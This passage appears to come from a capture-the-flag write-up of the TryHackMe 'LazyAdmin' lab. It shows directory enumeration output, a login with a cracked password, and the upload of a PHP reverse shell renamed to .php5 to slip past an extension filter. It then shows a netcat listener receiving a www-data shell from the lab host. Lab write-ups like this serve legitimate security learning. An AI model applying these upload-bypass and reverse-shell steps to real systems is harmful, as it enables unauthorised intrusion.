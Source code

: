 ```bash
/inc                  (Status: 301) [Size: 318] [--> http://10.10.137.66/content/inc/]
/as                   (Status: 301) [Size: 317] [--> http://10.10.137.66/content/as/]
/_themes              (Status: 301) [Size: 322] [--> http://10.10.137.66/content/_themes/]
/attachment           (Status: 301) [Size: 325] [--> http://10.10.137.66/content/attachment/]
Progress: 58480 / 87665 (66.71%)

```

The login page is `/as`.

Lets try our user `manager` with the `pwd` we got from `john`.


And we are logged in!! Lets find a way for break into the server. After browsing a bit, I found a way to upload files on the server. Thats perfect for a `php reverse shell`.

You get the script here:

[PHP-Reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

We set our ip into the script and the port `4444`


![lazyadmin](assets/img/tryhackme/lazyadmin/lazyadmin-01.png "lazyadmin")



I had to use the extension `php5`, because it seems that `php` is forbidden.


And of course we need to listen on our device with `nc`:

```bash

└─$ nc -nlvp 4444 10.10.137.66
listening on [any] 4444 ...
connect to [10.11.110.106] from (UNKNOWN) [10.10.137.66] 52974
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 13:31:12 up  1:18,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
``` 
